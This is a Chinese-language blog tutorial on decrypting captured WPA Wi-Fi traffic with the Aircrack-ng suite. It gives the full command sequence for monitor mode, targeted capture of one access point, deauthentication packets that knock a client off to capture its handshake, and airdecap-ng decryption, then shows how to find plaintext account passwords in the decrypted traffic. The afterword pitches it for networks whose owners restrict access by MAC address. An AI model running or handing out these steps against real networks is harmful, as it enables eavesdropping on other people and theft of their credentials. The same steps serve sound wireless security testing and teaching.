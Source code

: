 ```yaml
---
title: WPA解密
date: 2020-04-25 19:06:01
categories: 无线渗透
tags: Aircrack-ng套件
---
```


### 前言

> 此方法用于解密wifi下的802.11*数据包，可截获HTTP下的明文密码等其他信息，但HTTPS下的数据包仍无法解密，此方法成功必须满足以下两个条件。
> 1. 先破解目标wifi密码或已经知道目标密码
> 2. 抓取到握手包

<!--more-->

开启网卡监听模式

`airmon-ng start wlan0`

扫描附近热点

`airodump-ng wlan0mon`

![](http://qn.laohuan.xin/Snipaste_2019-09-26_19-38-20.png)

只抓取ESSID为test的数据包

`airodump-ng -c 12 --bssid B4:C4:FC:65:77:50 wlan0mon -w file.cap`

* -c 指定信道
* --w 指定保存的文件名（可不加后缀.cap，会自动生成）

使用 <kbd> Ctrl</kbd>+<kbd> c</kbd>  停止抓取,用wireshark打开数据包

![](http://qn.laohuan.xin/Snipaste_2019-09-26_19-51-53-1024x342.png)

发现都是802.11加密得数据包

### 解密数据包

1. 对test继续进行抓包

`airodump-ng -c 3 --bssid B4:C4:FC:65:77:50 wlan0mon -w test`

由于需要抓取握手包，我们发送deauth包让对方热点下的设备断开重连

`aireplay-ng  -0 15 -a B4:C4:FC:65:77:50 -c FC:64:BA:EB:78:B5 wlan0mon`

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-25-48.png)

*  -0 指定deauth包的数量
* -a 指定bssid
* -c 指定客户端的mac地址（抓包时的STATION）

2. 当出现红框内的 WPA handshake 表明抓取到握手包

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-27-21.png)

数分钟后，<Kbd>ctrl</kbd>+<kbd>c</kbd>停止抓包

在当前目录下生成一个test-01.cap的文件

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-33-31.png)

3. 解密这个数据包文件

`airdecap-ng -e test -b B4:C4:FC:65:77:50 -p 88888888 test-01.cap`

* 参数 -e 指定essid(wifi名字)
* -b 指定bssid
* -p 指定wifi密码

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-36-47.png)

红框内即为解密WPA包的数量

接下来会在当前目录生成一个已解密的dec.cap文件

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-37-59.png)

4. 用wireshark打开此数据包，已经可以看到具体协议的数据包，起初这些数据包是被802.11协议加密的

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-41-24-1024x297.png)

如果有明文传送的账号密码，在TCP流里很容易找到

![](http://qn.laohuan.xin/Snipaste_2019-09-27_20-44-41.png)

### 后话

当知道或已经破解了对方的wifi密码，可连接此wifi热点后再进行抓包，这时抓到的数据包就已经是解密的了（802.11协议的解密），不必再向本文如此大动干戈。当对方热点主人设置了指点mac地址的设备才可以连接wifi时，你知道对方密码也连接不上wifi时，便可参考此方法。